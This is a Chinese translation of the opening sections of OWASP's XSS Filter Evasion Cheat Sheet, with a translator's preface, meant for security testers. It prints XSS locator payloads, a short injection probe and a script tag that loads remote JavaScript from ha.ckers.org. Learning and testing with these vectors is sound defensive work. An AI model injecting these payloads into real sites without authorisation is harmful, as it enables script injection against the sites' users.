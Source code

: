 XSS Filter Evasion Cheat Sheet 中文版
==================================

译者注：
翻译本文的最初原因是当我自己看到这篇文章后，觉得它是非常的价值。但是这么著名的一个备忘录却一直没有人把它翻译成中文版。很多人仅仅是简单的把文中的各种代码复制下来，然后看起来很刁的发在各种论坛上，不过你要真去认真研读这些代码，就会完全不知所云了。原因是这篇文章最精华的部分是代码的解释而非代码本身。

一方面为了自己学习，一方面也想让更多国内的xss爱好者去更方便的阅读本文。所以虽然我本身英语很烂，xss技术也很烂，但还是去翻译了这篇文章。当然这也导致最后翻译出来的文章晦涩难懂、不知所云。这个真心向大家说声抱歉啊，也希望大家能及时帮忙提出文中的翻译错误或其他错误。

另外，在翻译过程中，我发现XSS Filter Evasion Cheat Sheet原版本身也存在一些技术上的或是描述上的错误。不过虽然我知道原文中某些地方可能出错，但是我也不知道正确的应该是什么样的，还有就是或许原文本身是对的，但是我理解错了。种种原因吧，最后基本上都按原文在翻译，有些觉得可能存在错误的地方或是我理解不了的地方，我就没有翻译，继续使用英文。希望大家可以帮忙给出翻译或是解释。

如果大家有能力阅读英文的话，尽量阅读原文，即使要看这个翻译版，也配合英文版一起看。不要让我的翻译错误误人子弟啊。最后希望大家可以和我一起解决翻译中的各种错误，把这个中文版维护好。

谢谢

源文档地址：https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet

翻译文档github地址：https://github.com/caomulaodao/XSS-Filter-Evasion-Cheat-Sheet-CN

#介绍#
这篇文章的主要目的是去给应用安全测试者提供一份xss漏洞检测指南。文章的初始内容由RSnake提供给OWASP，从他的xss备忘录: http://ha.ckers.org/xss.html 。目前这个网页已经重定向到我们这里，我们打算维护和完善它。OWASP的第一个防御备忘录项目：the XSS (Cross Site Scripting) Prevention Cheat Sheet灵感来源于RSnake的 XSS Cheat Sheet，所以我们对他给予我们的启发表示感谢。我们想要去创建短小简单的参考给开发者去帮助他们预防xss漏洞，而不是创建一个复杂的备忘录去简单的告诉他们需要去预防各种千奇百怪的攻击。所以，OWASP备忘录系列诞生了。

------
#测试#
这个备忘录主要针对那些已经理解了最基本的xss攻击，但是想要深入理解各种过滤器绕过的细微差别的学习者。

请注意大部分的xss攻击向量已经在其代码下方给出了测试过的浏览器列表。

-----
##xss 探测器##
注入下面这些代码，在大多数没有特殊xss向量要求而易遭受脚本攻击的地方将会弹出单词“xss”。使用[url编码器][1]去编码你的整个代码。小技巧：如果你是急切的需要快去检测一个页面，通常只需要注入轻量的 "<任意字符>" 标签，然后判断输出点是否受到干扰就可以判断是否xss漏洞了。

    ';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";
    alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--
    ></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>

-------

##xss 探测器2##
如果你没有充足的输入空间去检测页面是否存在xss漏洞。下面这段代码是一个好的简洁的xss注入检测代码。在注入这段代码后，查看页面源代码寻找是否存在看起来像 <XSS verses &lt;XSS这样的输出点从而判断是否存在xss漏洞。

    '';!--"<XSS>=&{()}

---------

##无过滤绕过##
这是一个常规的xss注入代码，虽然通常它会被防御，但是我们建议首先去尝试它。（引号是不被需要的在任何现代浏览器中，因此这里省略了它。）

    <SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>

-------


  [1]: http://ha.ckers.org/xsscalc.html
  [2]: http://ha.ckers.org/xsscalc.html
  [3]: http://ha.ckers.org/xsscalc.html
  [4]: http://help.dottoro.com/
  [5]: http://help.dottoro.com/ljfvvdnm.php
  [6]: https://tools.ietf.org/html/rfc2397
  [7]: http://ha.ckers.org/xsscalc.html